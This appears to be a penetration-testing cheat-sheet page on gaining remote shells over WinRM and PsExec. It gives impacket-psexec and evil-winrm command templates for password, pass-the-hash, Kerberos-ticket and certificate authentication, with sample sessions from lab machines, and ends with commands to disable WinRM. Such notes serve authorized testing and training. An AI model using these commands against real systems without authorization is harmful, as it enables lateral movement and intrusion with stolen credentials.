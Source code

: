 ```yaml
---
title: "Winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert", "Winrm", "Psexec"]
---
```


### Psexec

{{< tab set1 tab1 >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}Hash{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'
```

```console
# Local auth
impacket-psexec '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>@<TARGET>' -hashes :<HASH>
```

```console
# Local auth
impacket-psexec '<USER>@<TARGET>' -hashes :<HASH>
```

{{< /tabcontent >}}

### Evil-Winrm

{{< tab set2 tab1 >}}Password{{< /tab >}}
{{< tab set2 tab2 >}}Hash{{< /tab >}}
{{< tab set2 tab3 >}}Kerberos{{< /tab >}}
{{< tab set2 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 3: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}

### Disable Winrm

```console
Disable-PSRemoting -Force
```

```console
Stop-Service WinRM -PassThru
```

```console
Set-Service WinRM -StartupType Disabled -PassThru
```